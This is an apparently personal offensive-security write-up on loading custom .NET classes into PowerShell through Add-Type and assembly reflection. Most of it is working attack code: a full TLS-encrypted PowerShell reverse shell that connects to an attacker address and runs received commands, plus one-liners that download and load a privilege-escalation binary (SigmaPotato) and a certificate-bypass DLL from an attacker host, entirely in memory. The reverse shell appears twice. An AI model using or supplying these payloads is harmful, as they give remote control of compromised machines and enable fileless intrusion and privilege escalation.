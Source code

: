 
## Overview
---
.NET classes are fundamental building blocks in the Microsoft .NET Framework. Classes define properties, methods, and events, allowing developers to structure and organize code in a modular and reusable way.  With .NET being a cornerstone of Windows, the ability to load custom classes into PowerShell gives attackers near infinite possibilities in terms of capabilities. Nearly anything you can develop in C# in theory can be loaded into a PowerShell session if written correctly.

### Loading Custom .NET  Classes into PowerShell via Add-Type
---
PowerShell is neat because it allows us to write native C# code and load them into the current session with different types of tools, most common being `Add-Type`. My personal most common use for it is using custom code to effectively disable the server certificate check that `[System.Net.WebClient]` uses.  This allows for communication with a simple web server over HTTPS using self signed certificates instead of HTTP.

- For another example, below is an SSL encrypted PowerShell reverse shell payload using a custom .NET Class:

```powershell
# $IPAddress = "<attacker_ip>"
# $Port = <listening_port>

# Custom Self-Signed Certificate bypass .NET class
$SSC = @'
using System;
using System.Net;
using System.Net.Sockets;
using System.Net.Security;
using System.Security.Cryptography.X509Certificates;
public class SelfSignedCerts
{
    public static bool Bypass (Object ojb, X509Certificate cert, X509Chain chain, SslPolicyErrors errors)
    {
        return true;
    }
    public static SslStream Stream(TcpClient client)
    {
        return new SslStream(client.GetStream(), false, new RemoteCertificateValidationCallback(Bypass), null);
    }
}
'@
# Load Bypass into PowerShell session
Add-Type $SSC

# Simple PowerShell reverse shell using encrypted stream
$Client = [System.Net.Sockets.TcpClient]::new("$IPAddress",$Port)
$Stream = [SelfSignedCerts]::Stream($Client)
$Stream.AuthenticateAsClient("")
[byte[]]$Buffer = 0..65535 | % {0}
$LastError = $Error[0]
while (($Data = $Stream.Read($Buffer,0,$Buffer.Length)) -ne 0) {
    $Command   = [System.Text.ASCIIEncoding]::new().GetString($Buffer,0,$Data)
    $Execution = (iex $Command *>&1 | Out-String)
    if ($Error[0] -ne $LastError) { $LastError = $Error[0]; $Execution += "$LastError`n" }
    $OutString = $Execution + "PS " + (PWD).Path + "> "
    $OutBytes  = ([Text.Encoding]::ASCII).GetBytes($OutString)
    $Stream.Write($OutBytes,0,$OutBytes.Length)
    $Stream.Flush()
}
$Client.Close()
```

### Loading Custom .NET Classes into PowerShell via Reflection
---
Another really neat method of loading powerful C# tomfoolery into session is via reflection -- specifically using `[System.Reflection.Assembly]::Load(<intended_assembly_here>)`. This method is especially powerful because you can load complete C# binaries into session. When combining this with `[System.Net.WebClient]`, you can even host C# binaries on your attacker and load them into a session remotely on a compromised host; a prime example of this would be exploiting `SeImpersonatePrivilege` for privilege escalation all from memory via a reflected tool.

- Below is an example of this using my custom **SigmaPotato** repository: [https://github.com/tylerdotrar/SigmaPotato](https://github.com/tylerdotrar/GodPotatoNet "https://github.com/tylerdotrar/SigmaPotato")

```powershell
# Load Remotely Hosted C# binary into PowerShell via Reflection
$WebClient = New-Object System.Net.WebClient
$DownloadData = $WebClient.DownloadData("http(s)://<ip_addr>/SigmaPotato.exe")
[System.Reflection.Assembly]::Load($DownloadData)

# Load Remotely Hosted C# binary into PowerShell via Reflection (one-liner)
[System.Reflection.Assembly]::Load([System.Net.WebClient]::new().DownloadData("http(s)://<ip_addr>/SigmaPotato.exe"))

# Execute binary entirely from memory
[SigmaPotato]::Main('<command>')
```

### Tying it all Together
---
Turns out `Add-Type` has the ability to compile really simple assemblies (e.g., `.dll` or `.exe`) instead of just loading them into session. Meaning instead of needing Visual Studio to compile a binary for something simple like a self-signed certificate bypass, we can...

1. Create a small `.dll` using `Add-Type`.
2. Host the `.dll` it on our attacker using a simple web server.
3. Load it into a PowerShell session it via `[System.Reflection.Assembly]`.
4. This achieves the same result without hardcoding the entire class in cleartext.

For this final example, I'll recreate the reverse shell payload from the first section, however instead of loading the `[SelfSignedCerts]` class into session via `Add-Type`, I've instead used `Add-Type $SSC -OutputAssembly SSC.dll` on my attacker to create an `SSC.dll` assembly from the original example code, and began hosting it on a simple web server on my attacker. Now for the reverse shell payload, instead of including the entire C# source code, we can replace that code snippet in our payload with an assembly reflection pointing to the hosted `SSC.dll`.

```powershell
# $IPAddress = "<attacker_ip>"
# $Port = <listening_port>

# Load remotely hosted self-signed certificate bypass C# binary
[System.Reflection.Assembly]::Load([System.Net.WebClient]::new().DownloadData("http(s)://<ip_addr>/SSC.dll"))

# Simple PowerShell reverse shell using encrypted stream
$Client = [System.Net.Sockets.TcpClient]::new("$IPAddress",$Port)
$Stream = [SelfSignedCerts]::Stream($Client)
$Stream.AuthenticateAsClient("")
[byte[]]$Buffer = 0..65535 | % {0}
$LastError = $Error[0]
while (($Data = $Stream.Read($Buffer,0,$Buffer.Length)) -ne 0) {
    $Command   = [System.Text.ASCIIEncoding]::new().GetString($Buffer,0,$Data)
    $Execution = (iex $Command *>&1 | Out-String)
    if ($Error[0] -ne $LastError) { $LastError = $Error[0]; $Execution += "$LastError`n" }
    $OutString = $Execution + "PS " + (PWD).Path + "> "
    $OutBytes  = ([Text.Encoding]::ASCII).GetBytes($OutString)
    $Stream.Write($OutBytes,0,$OutBytes.Length)
    $Stream.Flush()
}
$Client.Close()
```

## Conclusion
---
All methods have pros and cons -- sometimes it's easier to just leave the code snippet in the payload and add it to session via `Add-Type` -- sometimes size is a concern, so we just want to point to it via reflection, etc etc etc.